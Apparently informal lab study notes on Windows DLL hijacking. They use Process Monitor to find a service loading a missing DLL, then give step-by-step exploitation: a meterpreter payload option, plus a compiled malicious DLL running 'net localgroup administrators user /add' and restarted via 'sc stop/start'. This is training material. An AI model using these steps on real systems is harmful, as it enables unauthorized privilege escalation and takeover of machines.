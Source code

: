 DLL -> Dynamic Link Library 
just like an executable 

1) Go the windowa machine
2)  open tools 
3) then the process monitor run procmon as admin
4) then  using ctrl+f open the filter add the following filters
	1) Result is name not found
	![[DLL-Hijacking-1.png]]
	2) Path ends with .dll
	![[DLL-Hijacking-2.png]]

5) then apply then ok 
6) open cmd 
7) type `sc start dllsvc`
8) then type `sc stop dllsvc`
9) repeat step 7 
10) we can now a see in `c:\temp\hijackme.dll`
	1) as shown below
		1) ![[dll-hijaking-3.png]]

11) to exploit the sevice we can use 2 ways 
	1) 1st way is use a msfvenom payload the normal meterpreter ones 
	2) 2nd ways is to add the user to administrators and increase our privs
	for the 1st one follow the executables path shown in module 13 replace exe with dll


2nd path is 

1) get windows_dll.c in our machine
2) change the system to `cmd.exe /k net localgroup administrators user /add` user here the computer user change the `user` to whom you want elevate the privs
3) compile it using `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
4) transfer the exploit to the above path in `C:\temp`
5) restart the service using `sc stop dllsvc`  , `sc start dllsvc`
6) done